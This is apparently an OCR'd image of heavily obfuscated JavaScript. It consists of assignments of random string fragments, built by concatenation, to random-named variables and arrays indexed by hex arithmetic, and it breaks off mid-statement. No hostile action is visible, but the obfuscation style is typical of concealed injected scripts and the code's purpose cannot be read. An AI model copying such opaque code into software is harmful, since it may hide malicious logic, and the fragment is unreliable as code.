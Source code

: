 a0hH='CJ'+'-['+'tn'+'jB'+'@C'+'y@'+'Y/'+'Y%';_rqqDB='Uk'+'7W'+'L!'+'8t'+'bZ'+'+P'+'b@'+'p',a0bk[-0x2*0x6d3+0x13ed+0x13e*-0x5]='iq'+'yY'+'uS'+'H',_Q2CQz3Sx='cu'+'r6'+'m@'+'6g',_1eCrWWgf='GE'+'fi'+'Ht'+'e4'+'uk'+'ns'+'8';var a0hI='03'+'2W'+'gC'+'8';_WQVoduNL='pb'+'cL'+'/I'+'Gy'+'f*'+'W/'+'XU';var a0hJ='Mz'+'Ag'+'al'+'=g'+')*';_Mbcw3XUmD='??'+'S.'+'zp'+'-+'+'*D'+'My'+'6]'+'QP',_u52LIDekgi='QW'+'Fn'+'D6'+')G'+'Iq'+'hs'+'sg'+'ZN';var a0hK='aU'+'Os'+'BF'+'s3'+'lo'+'+d'+'L?'+'k';a0bg['Qx'+'Om'+'pp'+'JJ'+'QN']='mi'+'EP'+'uq'+'Lv'+'Lk'+'7w'+'8N'+'XV',_BLo7xz='54'+'37'+'!T'+'%F'+'9#'+'+n'+'z',_48MY8LYg='7n'+'AC'+'RV'+'c6'+'/@'+'n!'+'B',_czgixN='*u'+'sw'+'C4'+'K.'+'bG',a0bk[-0x1*0x1c65+-0x1d6c*-0x1+-0x103]='WS'+'ZM'+'iL'+'XL'+'m',_xXeKT6qeV='wl'+'1h'+'Z.'+'%-'+'Uu'+'N_'+'B)';var a0hL='k?'+'ui'+'t('+'q5'+'[/'+'vC'+'U',a0hM='Nl'+'Qp'+'y0'+'!y',a0hN='MH'+'RQ'+'/t'+')]'+'bZ'+'YM';_ai53Tj6='-Z'+'[Z'+'sA'+'uE'+'hg'+'/['+'sp';var a0hO='vR'+'KM'+'cE'+'wP'+'2x'+'j5'+'sg'+'w/';a0bg['fU'+'wa'+'hJ']='Rn'+'qC'+'oI'+'Lv'+'Lq'+'Lm'+'eO'+'l';var a0hP='6_'+'6]'+'K['+'a1'+'[W'+'*u'+'7',a0hQ='Pg'+'*A'+'zQ'+'C-'+'ZL'+'+V'+'z*',a0hR=')X'+'+-'+'aN'+'G4'+'[';a0bg['sR'+'rL'+'mY']='21'+'93'+'f0'+'b8'+'7a';var a0hS='*E'+'IA'+'cg'+'5A'+'lk';_TYILR=')8'+'mr'+'Is'+'Au'+'*9'+'B',_yWVRTD='C+'+'4f'+']t'+'EV'+'cD'+'u@'+'[0';var a0hT='l*'+'YG'+'eE'+'=]'+'i!'+'wP'+'%V'+'y';a0bk[-0x1*0x1433+-0xa*-0x32d+-0xb55]='aD'+'kz'+'f6'+'3w'+'Zz',_zHJ6L='c?'+'dx'+'Zw'+'!*'+'5('+'%z'+'PG'+'1U',_mYkjMv='yv'+'ne'+'&+'+'G_'+'Hl'+'T';var a0hU=']5'+'v5'+'dU'+'si'+'q1'+'pp'+'zI',a0hV='OU'+'15'+'g*'+'6S'+'6F'+'7='+'D4'+'8';_DorfIJiP='ZC'+'%X'+'v4'+'sr'+'AV',a0bg['CO'+'oX'+'u']='Wu'+'rh'+'Ov'+'oz'+'ii'+'OL'+'qL'+'s4'+'ev'+'M5';var a0hW='GT'+'A@'+'1!'+'xN'+'K+'+'UA'+'C7'+'F7',a0hX='2U'+'(#'+'CO'+'n.'+'E7'+']k'+'JG'+']',a0hY='D0'+'UU'+'k7'+'z1'+'FR'+'5]';_3dV923x6n='Oa'+']C'+'U?'+'_f'+'^Z'+'w',_KyScExAIWu='R*'+'Q-'+'1N'+'H_',a0bk[0xa6*-0x2c+-0x2*-0x257+0x1831]='6h'+'1F'+'3',_6yY39Jl='Q]'+'GG'+'*W'+'S!'+'@r'+'?q'+'V9'+'rb';var a0hZ='T&'+'Nr'+'8v'+'7';a0bk[0x130a+-0x175*0x9+0x1*-0x5b1]='io'+'cc'+'s5'+'H';var a0i0='pm'+'8e'+'O3'+'F='+'+^'+'Za'+'O';_MIh7U3x=']T'+'H9'+'Xd'+'!.'+'Ys',_sDIum='Bk'+'^l'+'QV'+'2J'+'2h'+'TC'+'gc',a0bk[-0x23f0+-0x2092+0x44a8]='wG'+'eB'+'bj';var a0i1='0k'+'H]'+'M@'+'AL';_cPzSe='1t'+'1H'+'7C'+'h9'+'%J';var a0i2='FN'+'#F'+'&L'+'*^'+'H)';_8dJTO='zV'+'Qp'+'ZX'+'1c';var a0i3='=m'+'gs'+'0T'+'_h'+'(b'+'[';a0bg['ac'+'kh'+'GX'+'My'+'H']='uq'+'qm'+'IK'+'aL';var a0i4='H*'+'!X'+'8C'+'/r'+'M@'+'8',a0i5='&4'+'W%'+'X7'+'=b';a0bg['cc'+'OC'+'zO'+'uM'+'Nz']='qY'+'oL'+'vL'+'qL'+'sC'+'xY';var a0i6='D*'+'Sg'+'3?'+'JA'+'B%'+'mY'+'PJ';_NfegWZ='SS'+'N8'+'*l'+'fH'+'20'+'pD'+'C%'+')';var a0i7='@?'+'_I'+'l.'+'U2'+'oB';a0bk[-0x1*-0x12f4+-0x50f+-0xd87]='ck'+'xM'+'cm'+'Yn'+'OX',_HLVXj0='*7'+'Tj'+'R*'+'uf'+'v0'+'_g'+'x',_G7jTMsA5='Qz'+'2%'+'Q.'+'lJ'+'D=';var a0i8='xu'+'XM'+'Bp'+'hA'+'#S'+'z';a0bg['kh'+'jD'+'Uu'+'FO'+'g']='cs'+'T2'+'19'+'3f'+'0b'+'87'+'a4'+'PF',_tjFzz='Yz'+'#%'+'fV'+'%]'+'!Y'+'o',_JU8fov906='[('+'1-'+'m['+'j3',_QNjRUfU='ZQ'+'-X'+'S@'+'D*'+'lO'+'a*'+'m',a0bk[0x228d+0x53*-0x67+-0xc5]='0e'+'Zn'+'Ev'+'6',_bzHTWiT4b='mP'+'9e'+'9E'+'D1'+'gf'+'lG'+'jZ'+'2',_n1rYj3='_2'+'.B'+'^u'+'!J'+'R8'+'.r'+'wh'+'[M';var a0i9='SG'+'uw'+'MR'+'rt'+'4r'+'H3'+'.';a0bg['cR'+'WU'+'hH'+'Rm'+'n']='mZ'+'tg'+'mC'+'mD'+'Cm'+'SL'+'qn'+'0I'+'yk'+'bu',_l5LoCo='_9'+'S)'+'0_'+'Sa'+'!j'+'1e';var a0ia='UZ'+'DO'+'%*'+'yk'+'5c'+'/B';_lJzjBe='W/'+'V1'+'YD'+'X%'+'-i',a0bg['BP'+'Rd'+'GZ']='fT'+'11'+'Zv'+'Kz'+'Kb'+'Lw'+'Tf'+'6n'+'WR',_BnVCnz2pWJ='Z1'+'V6'+'yw'+'!Q'+'wM'+'ED'+'Ry'+'d';var a0ib='uL'+'[-'+'@b'+'S+'+'O!'+']['+'L8';_fnkt18c9='cd'+'Aj'+'!c'+'@',a0bg['dn'+'yF'+'XG'+'ta']='vK'+'zK'+'bL',_7iRQO31N='0H'+'9x'+'Zt'+'BM'+'B^'+'tu'+'UY'+'n(',_nY7rPyg='_*'+'.m'+'vl'+'t('+'ut';var a0ic='VX'+'l-'+'4j'+'!5'+'Dg'+'s^'+'TO',a0id='Px'+'RQ'+'7y'+'(o'+'t+'+'^4',a0ie='&a'+'Ue'+'H6'+'V.'+'_W'+'h8'+'Bn',a0ig='p/'+'5*'+'EJ'+'55'+'xg'+'I)'+'o.'+'*';a0bg['pe'+'RH'+'vt'+'nL']='AN'+'eI'+'ot'+'CI';var a0ih='Tg'+'PL'+'DO'+'lA'+'O@'+'A';_y6thMY='gK'+'8C'+'3b'+'p3'+'XS'+'d',_QdbyjNqV='Fl'+'XU'+'x7'+'v1'+'hv'+')Z',a0bk[0x1*-0x55+0x23a6+-0x1*0x22e1]='lq'+'1c'+'lB'+'2D'+'VX';var a0ii='V2'+'Bc'+'Qb'+'Zh',a0ij='X2'+'U*'+'w*'+'Fk'+'4Q'+'am'+'w3'+'?';_lzfJ2x='(s'+'ST'+'u2'+'-U'+'V!'+'_y'+'eE'+'mJ',a0bk[-0x3*0x981+0x175*0x11+0x3e6*0x1]='Ir'+'Hg'+'ky'+'QG';var a0ik='3J'+'My'+'Wy'+'oZ'+'Iq'+'4t'+'^';_NrBLbjdRyO='wg'+'gG'+'__'+'?0',a0bg['Hb'+'rD'+'F']='qL'+'qi'+'VV'+'2S'+'oJ',_zUZU6HLpq='(h'+'*P'+'lT'+')P'+'fE',_Q7PSUnqs='vA'+']i'+'6V'+'4_'+'4&'+'sv'+'@';var a0il='9a'+'M2'+'@D'+'aQ'+'G';_bmHwmk='KT'+'J*'+'#d'+'8V'+'ZA',a0bg['UO'+'Nx'+'rP'+'Mr'+'Oq']=